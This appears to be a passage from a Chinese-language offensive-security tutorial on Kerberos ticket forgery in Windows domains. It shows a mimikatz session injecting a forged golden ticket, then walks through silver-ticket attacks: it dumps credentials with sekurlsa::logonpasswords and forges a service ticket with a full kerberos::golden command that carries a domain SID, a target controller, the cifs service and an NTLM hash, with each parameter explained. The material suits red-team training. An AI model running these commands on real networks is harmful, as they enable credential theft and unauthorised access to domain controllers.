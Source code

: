 导入：

```
mimikatz # kerberos::purge
Ticket(s) purge for current session is OK

mimikatz # kerberos::ptt C:\Users\yutaowin10\Desktop\Tool\mimikatz\ticket.kirbi

* File: 'C:\Users\yutaowin10\Desktop\Tool\mimikatz\ticket.kir
```

再次访问域控即可成功。



### 白银票据

Silver Tickets（下面称银票）就是伪造的ST（Service Ticket），因为在TGT已经在PAC里限定了给Client授权的服务（通过SID的值），所以银票只能访问指定服务。

1.不需要与 KDC 进行交互 

2.需要 server 的 NTLM hash

mimikatz：

```
privilege::debug
sekurlsa::logonpasswords
```

![image-20220318202007613](README/image-20220318202007613.png)

```
kerberos::golden /domain:ghost.com /sid:S-1-5-21-1238213221-2393825874-2881136966-500 /target:WIN-4JS3YOGGQ2T.ghost.com /service:cifs /rc4:520126a03f5d5a8d836f1c4f34ede7ce /user:new_user_gold /ptt

/domain
/sid
/target:目标服务器的域名全称，此处为域控的全称
/service:目标服务器上面的kerberos服务，此处为cifs
/rc4:计算机账户的NTLM hash，域控主机的计算机账户
/user:要伪造的用户名
```

